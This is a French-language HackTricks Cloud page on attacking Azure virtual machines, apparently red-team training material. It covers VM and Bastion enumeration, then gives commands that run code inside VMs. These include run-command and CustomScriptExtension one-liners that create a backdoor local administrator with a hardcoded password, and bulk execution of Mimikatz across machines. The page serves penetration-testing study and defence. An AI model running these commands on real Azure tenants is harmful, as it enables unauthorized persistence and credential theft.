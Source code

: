 # Az - Machines Virtuelles & Réseau

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

[From the docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Les machines virtuelles Azure sont l'un des plusieurs types de [ressources informatiques à la demande et évolutives](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que propose Azure. En général, vous choisissez une machine virtuelle lorsque vous avez besoin de plus de contrôle sur l'environnement informatique que les autres options ne le permettent. Cet article vous fournit des informations sur ce que vous devez considérer avant de créer une machine virtuelle, comment vous la créez et comment vous la gérez.

## Informations sur le réseau Azure

Les réseaux Azure contiennent **différentes entités et façons de les configurer.** Vous pouvez trouver une brève **description,** **exemples** et **commandes d'énumération** des différentes entités réseau Azure dans :

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre une solution d'accès RDP (Remote Desktop Protocol) et SSH (Secure Shell) sécurisée et entièrement gérée via SSL à travers le portail Azure. Il est intégré dans un réseau virtuel Azure, permettant la connectivité RDP et SSH aux machines virtuelles en utilisant des IP privées, évitant ainsi le besoin d'IP publiques. Cela en fait une alternative plus sûre et plus pratique aux méthodes traditionnelles impliquant des attributions d'IP publiques et des configurations de règles NSG pour l'accès aux machines virtuelles. Les développeurs et le personnel informatique peuvent accéder en toute sécurité aux machines virtuelles depuis le portail Azure en utilisant leurs navigateurs web, simplifiant ainsi le processus pour les environnements de développement et de test.

Pour lister tous les hôtes Azure Bastion dans votre abonnement, vous pouvez utiliser la commande suivante :

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Énumération des VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Exécuter des commandes dans une VM**

### **Connexion AAD dans la VM**

Il est possible de permettre l'accès aux utilisateurs authentifiés via AzureAD. Par exemple, en essayant d'accéder à une **VM linux** : `ssh username@azure-corp.com@1.1.1.1` (il est important d'**utiliser l'email** avec le azurecorp utilisé lors de la tentative de connexion) vous pourriez obtenir une erreur comme :

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Il suffit de **suivre ces instructions** en allant sur [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) et en indiquant le code, utilisez l'email et le mot de passe comme identifiants et vous pourrez vous connecter via SSH (si cet utilisateur a suffisamment de permissions pour le faire : rôle `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Exécuter la commande**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Exécuter l'extension de script personnalisé**

Les extensions de machine virtuelle (VM) Azure sont **de petites applications** qui fournissent des configurations et des **tâches** d'automatisation après le déploiement sur les **VM Azure**. Par exemple, si une machine virtuelle nécessite l'installation de logiciels, une protection antivirus ou la capacité d'exécuter un script à l'intérieur, vous pouvez utiliser une extension de VM.

Par conséquent, si vous avez accès pour l'écrire, vous pouvez exécuter du code arbitraire :
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) est un outil PowerShell similaire à Ansible, utilisé pour configurer un hôte par le biais de code. DSC s'intègre à Azure, permettant le téléchargement de fichiers de configuration spécifiques. Ces fichiers doivent respecter une syntaxe stricte. Notamment, l'extension DSC dans Azure peut exécuter des commandes à partir de fichiers qui répondent à certains critères de formatage, même si la syntaxe n'est pas correcte selon les normes DSC, comme le montre la figure fournie.

L'exécution de ces commandes est facilitée par la fonction [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) dans Az PowerShell. Les exigences incluent un fichier **.PS1** avec une fonction définie et le fichier doit être compressé dans un fichier **.zip**. Même si la syntaxe peut ne pas être précise pour DSC, le code s'exécutera toujours. Cependant, l'extension marquera l'état d'exécution comme "échec", et aucune sortie de la commande ne sera visible en raison du statut étant écrasé par le message d'échec.

### VM Application Definitions

Les définitions d'application VM permettent le déploiement répétable d'applications versionnées sur une VM Azure. Cette ressource prend en charge le déploiement et la mise à jour d'applications sur plusieurs VMs. Pour configurer cela, plusieurs étapes sont nécessaires, impliquant des commandes comme **`New-AzGalleryApplication`** et **`New-AzGalleryApplicationVersion`** dans Az PowerShell.

L'exécution d'applications ou de commandes par cette méthode implique le **"VMAppExtension"**, qui est installé automatiquement lorsqu'une application est appliquée à une VM. L'extension récupère le fichier à partir de l'URI spécifié et le nomme exactement comme l'application, sans extension. Pour exécuter le fichier correctement, le champ "ManageActions" dans l'appel API REST doit être configuré pour renommer le fichier avec l'extension appropriée. La configuration de cette méthode, une fois terminée, ressemblera à la structure montrée dans la figure fournie.

Cependant, cette méthode d'exécution est relativement lente, prenant environ 3-4 minutes pour exécuter une application ou une commande. Les fichiers liés à ce processus sont stockés dans des répertoires spécifiques (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` pour la copie de l'application et `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` pour l'état d'exécution).

Les deux techniques offrent des moyens uniques d'exécuter des commandes et de déployer des applications dans des environnements Azure, chacune avec son propre ensemble d'exigences, d'étapes et de considérations.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sont une fonctionnalité d'Azure qui permet aux Runbooks, configurés dans un compte d'automatisation, d'être exécutés sur une machine virtuelle Azure (VM) qui fait partie du HWG désigné. Cette exécution est facilitée par une extension installée sur la VM, qui déploie le code du Runbook sur la VM. Un aspect significatif de ce processus est que les véritables identifiants ne sont pas un facteur dans l'exécution car le code s'exécute avec des privilèges élevés, spécifiquement en tant que **SYSTEM** ou root, comme illustré dans la figure fournie.

Un détail crucial pour ceux utilisant des VMs Windows 10 est la nécessité de spécifier la version de PowerShell pour le Runbook. Elle doit être configurée pour s'exécuter en tant que PowerShell Version 5.1 au lieu de 7.1. Cette exigence découle du fait que PowerShell 7.1 n'est pas installé par défaut sur ces VMs, entraînant un échec de l'exécution du script si la version 7.1 est spécifiée.

Cette fonctionnalité d'Azure offre une méthode robuste pour automatiser et gérer des tâches à travers des environnements hybrides, permettant une gestion et une exécution centralisées des tâches sur les VMs Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
